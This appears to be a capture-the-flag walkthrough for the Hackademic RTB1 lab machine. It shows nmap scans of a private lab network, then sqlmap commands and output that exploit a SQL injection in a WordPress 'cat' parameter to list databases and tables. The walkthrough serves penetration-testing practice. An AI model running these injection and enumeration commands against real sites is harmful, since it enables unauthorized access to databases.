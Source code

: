 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```

## 2.1.Web Enumeration

Visit the main page and if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`



this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```











